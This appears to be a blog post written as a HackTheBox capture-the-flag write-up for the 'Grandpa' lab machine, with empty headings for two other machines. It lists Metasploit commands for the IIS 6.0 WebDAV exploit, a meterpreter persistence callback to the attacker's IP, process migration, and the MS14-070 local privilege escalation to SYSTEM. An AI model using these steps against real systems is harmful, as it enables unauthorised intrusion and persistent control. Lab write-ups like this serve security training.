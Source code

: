 ```yaml
---
title: "HackTheBox - WriteUp 6"
date: 2019-06-08T10:04:44+08:00
description: "HackTheBox 练手"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Grandpa

That really sucks. Even I use VPS in New York which result in ping response always in 20ms, it still failed to get connected from victim.

## MSF way

### Warm up

Nmap Scanned: Port 80 opened. IIS httpd 6.0 with Windows Server 2003.

### Normal User

Run these commands in `msfconsole`:

```bash
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.10.10.14
exploit
```

Then use these commands in meterpreter to stablize it:

```bash
run persistence -X -U -A -L %TEMP% -r 10.10.14.6 -p 4455
getuid
> Permission denied
migrate 2212    # davcdata.exe
getuid
> NT AUTHORITY\NETWORK SERVICE
bg
```

In fact, finally, I migrate to `wmiprvse.exe`. And wait for a long time before privilege escalation.

### Administrator / System

> Due to the fucking network on my VPS, this step took me a lot of time. So you must ensure your network stablity is really well.

```bash
use exploit/windows/local/ms14_070_tcpip_ioctl
set SESSION 1
exploit
bg
sessions -i 1
getuid
> NT AUTHORITY\SYSTEM
download "C:\Documents and settings\harry\desktop\user.txt"
download "C:\Documents and settings\administrator\desktop\root.txt"
```
Privilege Escalated. Finished.

## OSCP way

TBD

# Bart

# Calamity

